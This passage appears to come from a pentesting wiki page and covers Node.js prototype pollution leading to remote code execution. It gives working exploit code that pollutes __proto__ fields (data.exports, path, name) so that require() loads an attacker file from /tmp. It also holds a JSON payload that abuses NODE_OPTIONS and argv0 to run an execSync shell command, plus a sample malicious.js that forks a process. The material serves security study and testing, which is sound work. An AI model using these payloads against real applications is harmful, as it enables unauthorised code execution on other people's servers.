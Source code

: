 {% tab title="malicious.js" %}
```javascript
const { fork } = require('child_process');
console.log("Hellooo from malicious");
fork('/path/to/anything');
```
{% endtab %}
{% endtabs %}

#### Relative require - 2

{% tabs %}
{% tab title="exploit" %}
{% code overflow="wrap" %}
```javascript
// Create a file called malicious.js in /tmp
// Contents of malicious.js in the other tab

// Manual Pollution
b = {}
b.__proto__.data = {}
b.__proto__.data.exports = { ".": "./malicious.js" }
b.__proto__.path = "/tmp"
b.__proto__.name = "./relative_path.js" //This needs to be the relative path that will be imported in the require

// Trigger gadget
var proc = require('./relative_path.js');
// This should execute the file /tmp/malicious.js
// The relative path doesn't even need to exist


// Abusing the vulnerable code
USERINPUT = JSON.parse('{"__proto__": {"data": {"exports": {".": "./malicious.js"}}, "path": "/tmp", "name": "./relative_path.js", "NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\\\"child_process\\\").execSync(\\\"touch /tmp/pp2rce_exports_path\\\").toString())//"}}')

clone(USERINPUT);

var proc = require('./relative_path.js');
// This should execute the file /tmp/malicious.js wich create the file /tmp/pp2rec
```
{% endcode %}
{% endtab %}

{% tab title="malicious.js" %}
```javascript
const { fork } = require('child_process');
console.log("Hellooo from malicious");
fork('/path/to/anything');
```
{% endtab %}
{% endtabs %}
